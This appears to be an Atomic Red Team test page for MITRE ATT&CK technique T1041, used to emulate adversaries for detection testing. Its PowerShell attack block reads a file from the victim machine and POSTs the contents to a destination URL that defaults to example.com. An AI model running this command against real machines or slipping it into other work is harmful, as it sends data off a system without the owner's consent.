 # T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | String | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | Path | C:&#92;Users&#92;$env:UserName&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```




#### Dependencies:  Run with `powershell`!
##### Description: The file to be exfiltrated must be present on the machine. Running the pre-reqs will create a sample file to be exfiltrated, else give the path of already present file as input.
##### Check Prereq Commands:
```powershell
if ([System.IO.File]::Exists("#{filepath}")){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "Creating file to be exfiltrated" 
1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
```




<br/>
